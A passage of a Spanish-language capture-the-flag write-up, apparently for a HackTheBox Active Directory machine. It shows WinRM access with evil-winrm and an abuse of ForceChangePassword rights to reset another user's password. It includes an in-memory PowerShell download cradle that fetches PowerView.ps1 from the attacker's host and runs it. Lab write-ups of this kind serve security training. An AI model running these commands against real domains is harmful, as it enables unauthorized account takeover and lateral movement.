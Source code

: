 Verificaremos que se han modificado las credenciales de usuario (michael@administrator) a través de **netexec**. Comprobamos que se ha realizado el cambio y además nos aparece como **pwn3d**, lo cual indica que podemos conectarnos remotamente al DC.

Accederemos a través del WinRM con el nuevo usuario obtenido.

```bash
netexec winrm 10.10.11.42 -u 'Michael' -p 'Gzzcoo123'

evil-winrm -i 10.10.11.42 -u 'Michael' -p 'Gzzcoo123'
```

<figure><img src="../../../../../.gitbook/assets/2526_vmware_ivONU17Bqc.png" alt=""><figcaption></figcaption></figure>

### Abusing ForceChangePassword privileges

Volviendo a revisar el BloodHound en busca de realizar un **lateral movement** o elevar nuestros privilegios, comprobamos que el usuario que disponemos actualmente (michael@administrator.htb) tiene privilegios de **ForceChangePassword** sobre el usuario (benjamin@administrator.htb).&#x20;

Con lo cual, podemos también cambiarle la contraseña al usuario objetivo.

<figure><img src="../../../../../.gitbook/assets/2525_vmware_ClC7rhkEBy.png" alt=""><figcaption></figcaption></figure>

Realizaremos el mismo proceso desde la terminal que tenemos iniciada sesión la cuenta de (michael@administrator.htb).

Importaremos en memoria el módulo de _PowerView.ps1_ y procederemos a realizar el cambio de la contraseña del usuario objetivo.

{% code overflow="wrap" %}
```powershell
python3 -m http.server 80

IEX (New-Object Net.WebClient).downloadString("http://10.10.14.2/PowerView.ps1")

$UserPassword = ConvertTo-SecureString 'Gzzcoo123' -AsPlainText -Force

Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword
```
{% endcode %}
